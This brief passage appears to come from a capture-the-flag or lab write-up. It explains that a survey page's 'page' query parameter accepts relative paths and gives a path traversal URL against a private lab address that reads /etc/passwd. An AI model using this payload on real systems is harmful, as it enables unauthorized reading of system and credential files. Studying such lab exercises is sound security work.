 Looking closely to srvey page we can see that url uses query with potential relative path. we can use that breach to access to files at the root folder of the machine like /etc/passwd

http://192.168.56.103/?page=../../../../../../../etc/passwd
